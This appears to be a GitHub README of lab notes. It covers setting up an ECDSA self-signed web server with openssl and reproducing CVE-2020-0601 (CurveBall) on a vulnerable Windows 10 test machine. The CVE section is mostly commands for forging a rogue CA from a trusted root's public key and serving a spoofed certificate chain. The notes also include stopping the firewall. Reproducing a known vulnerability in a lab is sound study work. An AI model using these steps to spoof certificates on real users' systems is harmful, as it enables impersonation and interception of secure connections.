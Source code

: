 # ECDSA

## Set up a self-signed web server
- Generate CA key and certificate
	1. openssl ecparam -genkey -name secp384r1 -out myca.key
	1. openssl req -x509 -new -SHA384 -nodes -key myca.key -days 3650 -out myca.crt
- Generate myweb key and certificate
	1. openssl ecparam -genkey -name secp384r1 -out myweb.key
	1. openssl req -new -SHA384 -key myweb.key -nodes -out myweb.csr (it does not matter what values you'll fill but Common Name will be used later.)
	1. openssl x509 -req -SHA384 -days 365 -in myweb.csr -CA myca.crt -CAkey myca.key -CAcreateserial -out myweb.crt
- Run web server and browse the website
	1. python mywebsrv.py  --cert myweb.crt --priv myweb.key
	1. you can browse https://myweb:44330/

## CVE-2020-0601

The following steps are based on the instruction at https://github.com/kudelskisecurity/chainoffools
- Generate rogue CA private key and certificate based on known root CA's public key
	1. curl -o USERTrustECCCertificationAuthority.crt http://www.tbs-x509.com/USERTrustECCCertificationAuthority.crt
	1. curl -o gen-key.py https://raw.githubusercontent.com/kudelskisecurity/chainoffools/master/gen-key.py
	1. openssl ecparam -name secp384r1 -genkey -noout -out p384-key.pem -param_enc explicit
	1. python gen-key.py
	1. openssl req -key p384-key-rogue.pem -new -out ca-rogue.pem -x509 -set_serial 0x5c8b99c55a94c5d27156decd8980cc26 (it does not matter what values you'll fill)
- Sign your web server's certificate with the rogue CA
	1. openssl x509 -req -SHA384 -days 365 -in myweb.csr -CA ca-rogue.pem -CAkey p384-key-rogue.pem -CAcreateserial -out myweb.crt
	1. cat myweb.crt ca-rogue.pem > chain.pem (Need to provide full certificate path)
- Run web server and browse the website
	1. python mywebsrv.py  --cert chain.pem --priv myweb.key
	1. In vulnerable Windows 10, use IE to browse https://myweb:44330/ (host name should match the Common Name you filled when creating myweb.csr)

## Reference
- Use openssl to host a web server. However it won't work for the CVE-2020-0601 scenario

	openssl s_server -key ../self-signed/server.key -cert server.crt -accept 44330 -www
- View certificate

    openssl x509 -in ../../MSECC.cer -text -noout
- I need to stop firewall to make web server accept connection

	sudo service firewalld stop
- Setup ECDSA

	https://www.erianna.com/ecdsa-certificate-authorities-and-certificates-with-openssl/
- Check websites using ECDSA

	https://security.stackexchange.com/questions/58603/are-any-major-websites-offering-ecdsa-authentication

